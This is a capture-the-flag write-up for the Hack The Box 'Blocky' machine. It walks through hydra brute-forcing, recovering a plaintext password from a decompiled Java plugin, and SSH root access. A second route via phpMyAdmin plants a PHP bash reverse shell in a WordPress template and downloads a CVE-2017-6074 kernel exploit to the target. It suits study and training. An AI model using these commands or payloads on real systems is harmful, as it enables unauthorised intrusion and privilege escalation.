 # Blocky

```
kali@kali:~/htb/Blocky$ sudo nmap -Pn  10.129.1.53
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 08:03 EST
Nmap scan report for 10.129.1.53
Host is up (0.028s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
8192/tcp closed sophos
```

My default -sV and -sC do not work so I do a quick -Pn to see what we're dealing with. If needed I would return to do some more scanning.

I head to the webpage and I’m greeted by blockycraft! And there is a login page. Which differentiates username and password. So I’m gonna try hydra,


```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR\: Invalid username. Lost your password?" -L /usr/share/wordlists/usernames.txt -p test -I
```

Hydra can be a bit tough to send correctly, I explain it a bit more further down.

While that is running I check out the other options on the site. I click the first article and see a reply field. This might be a cross-site-scripting opportunity.

So let's try a simple XSS to see if it even works:

<script>alert(‘XSS’)</script>. This should create a popup message if it works. But it does not. The comment is simply posted with the <script>’s removed. I tried it on all fields as well, but to no avail. My hydra command has also slowed down a lot. Hmm. 

I decide to run dirbuster. But I don’t really find anything special.

I then remember that there are blog posts, and they probably include usernames… duh.

So we get a username “Notch”

I try hydra again: 

```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR\: The password you entered for the username Notch is incorrect. Lost your password?" -l Notch -P /usr/share/wordlists/rockyou.txt -I -V
```

In order to craft a good hydra command, you need to inspect the target login form, and use the values there. "log" was the form name of the username, "pwd" for the password etc.
I also had to escape the `:` in the fail message with a backslash. small L: -l means username. -L means username list. And the same for passwords -p means password and -P means password list. -I makes it so hydra does not resume from a previous run, and -V just means verbose.

Also my dirbuster is not working well, it is just running into empty links. So I’m gonna try Wfuzz and only looking for directories.

``` 
kali@kali:~/htb/Blocky$ sudo wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.1.53/FUZZ
```

-c outputs with colors

--hc=404 filters out 404 response pages

-w selects what wordlist to use


And Wfuzz finds a directory called plugins. So let's see if we find anything there. Note that my hydra is still running in the BG trying to find a password.

![](images/1.png)

We got something interesting here. Some java files, which is what is used for minecraft mods. Let’s see if we can find some interesting stuff. 

I decompress it with
```kali@kali:~/htb/Blocky$ unzip BlockyCore.jar -d Blockycore
Archive:  BlockyCore.jar
  inflating: Blockycore/META-INF/MANIFEST.MF  
  inflating: Blockycore/com/myfirstplugin/BlockyCore.class  
```
-d specifies a directory to unzip files

So now we can try to decompile it:

```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ javap -c  BlockyCore.class
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Compiled from "BlockyCore.java"
public class com.myfirstplugin.BlockyCore {
  public java.lang.String sqlHost;

  public java.lang.String sqlUser;

  public java.lang.String sqlPass;

  public com.myfirstplugin.BlockyCore();
    Code:
       0: aload_0
       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
       4: aload_0
       5: ldc           #14                 // String localhost
       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
      10: aload_0
      11: ldc           #18                 // String root
      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
      16: aload_0
      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
      22: return

  public void onServerStart();
    Code:
       0: return

  public void onServerStop();
    Code:
       0: return

  public void onPlayerJoin();
    Code:
       0: aload_0
       1: ldc           #33                 // String TODO get username
       3: ldc           #35                 // String Welcome to the BlockyCraft!!!!!!!
       5: invokevirtual #37                 // Method sendMessage:(Ljava/lang/String;Ljava/lang/String;)V
       8: return

  public void sendMessage(java.lang.String, java.lang.String);
    Code:
       0: return
}

```

That third string is interesting. `8YsqfCTnvxAUeduzjNSXe22`

I try it with Notch in the login page, but it does not work. However ssh was open in the ports. So lets try that:


```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh Notch@10.129.1.53
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 

kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh notch@10.129.1.53
notch@10.129.1.53's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Sep 24 08:12:11 2020 from 10.10.14.2
/usr/bin/xauth:  file /home/notch/.Xauthority does not exist
notch@Blocky:~$ whoami
notch
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Here we can see the importance of always trying both lower and uppercase. And we can see that notch is already a sudo user. So let's try to log in as root:

```
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# 
```

Great!

Although I am sad that hydra did not work.


## Comparing myself to the official writeup:

The official writeup an nmap with -T4 -A  and it revealed that minecraft was also running on port 25565. 

They ran into the same dirbusting issues I found. With php busting not working well on wordpress sites. They switched to directories only. As I did, although I used wfuzz and they kept using dirbuster.

They decompile the java files with JD-GUI. And found the credentials. And logged on with ssh. Used `sudo -i` to get root.

However they also pointed out a PhPAdmin route after finding the credentials in the java files.

So I decide to try that out at the end of this writeup.

## How to stop this exploit:

Very bad idea to keep plaintext credentials. And an even worse idea to keep it publicly available like this. And an even worse idea than that, to reuse that password as the root password of the machine. This is a cool example of an entirely user based mistake. As the user gave away the password. You could say that ssh could be turned off. But the biggest mistake here is clearly the plaintext public password reuse.


# Secondary foothold:

I navigate to 10.129.1.53/phpmyadmin

And log in with root:8YsqfCTnvxAUeduzjNSXe22 As found in the java files.

And go to the wordpress database:

![](images/2.png)

And click edit:

![](images/3.png)

We just set the user_pass to MD5 and enter our password:

![](images/4.png)

I press Go and login with Notch:DontReusePasswords on 10.129.1.53/wp-login. And I’m greeted with the admin panel:

![](images/5.png)

Now I’m mostly looking for somewhere to upload a php file as a reverse shell.

I go to Appearance->Editor in the wp-admin panel and add

```
<?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1'");
?>
```

To the top of the header.php template. Set up a listener and enter the page in browser:

```
kali@kali:~$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.53 41360
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Blocky:/var/www/html$ whoami
whoami
www-data
www-data@Blocky:/var/www/html$ 
```

I downloaded and compiled this: https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-6074/poc.c 

Compiled with: `kali@kali:~/htb/Blocky$ gcc -o poc poc.c`

I set up a webserver to download it:

```
kali@kali:~/htb/Blocky$ sudo python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...

```

And download it on the target:

```
www-data@Blocky:/var/www/html$ wget 10.10.14.21:8000/poc
wget 10.10.14.21:8000/poc
--2021-01-25 12:03:46--  http://10.10.14.21:8000/poc
Connecting to 10.10.14.21:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23768 (23K) [application/octet-stream]
Saving to: 'poc'

     0K .......... .......... ...                             100%  797K=0.03s

2021-01-25 12:03:46 (797 KB/s) - 'poc' saved [23768/23768]

www-data@Blocky:/var/www/html$ 
```

I followed this up with chmod 777 to get execute permissions, and ran it:

```
www-data@Blocky:/var/www/html$ chmod 777 poc
chmod 777 poc
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
```

And I did get root, but I think the machine crashed… As nothing responded. And I tried pinging, unreachable… So I tried resetting the box and having another go.

```
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1698): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
whoami
root
```

There we go! Awesome. Two cool ways of doing this box. Some good experience with phpmyadmin and Wordpress, and a new root exploit.

The dccp_rcv_state_process function in net/dccp/input.c mishandles DCCP_PKT_REQUEST packet data structures in the LISTEN state. This allows local users to obtain root privileges by using an application that makes an IPV6_RECVPKTINFO setsockopt system call.

This can be fixed by updating to the latest linux release.
